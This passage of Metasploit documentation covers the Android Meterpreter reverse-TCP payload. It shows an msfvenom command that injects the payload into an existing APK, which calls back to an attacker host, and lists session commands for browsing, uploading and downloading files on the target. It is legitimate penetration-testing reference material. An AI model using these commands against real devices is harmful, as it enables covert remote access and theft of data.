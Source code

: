 
```
./msfvenom -p android/meterpreter/reverse_tcp -x com.existing.apk LHOST=[IP] LPORT=4444 -f raw -o /tmp/android.apk
```


Next, start an Android device. Upload the APK, and execute it. There are different ways to do this,
so please refer to the Scenarios section for more information.

## Important Basic Commands

**pwd**

The ```pwd``` command allows you to see the current directory you're in.

```
meterpreter > pwd
/data/data/com.metasploit.stage
```

**cd**

The ```cd``` command allows you to change directory. For example:

```
meterpreter > cd cache
meterpreter > ls
```

**cat**

The ```cat``` command allows you to see the contents of a file.

**ls**

The ```ls``` command displays items in a directory. For example:

```
meterpreter > ls
Listing: /data/data/com.metasploit.stage/files
==============================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100444/r--r--r--  0     fil   2016-03-08 14:56:08 -0600  rList-com.metasploit.stage.MainActivity
```

**upload**

The ```upload``` command allows you to upload a file to the remote target. The ```-r``` option
allows you to do so recursively.

**download**

The ```download``` command allows you to download a file from the remote target. The ```-r```
option allows you to do so recursively.

**search**

The ```search``` command allows you to find files on the remote target. For example:
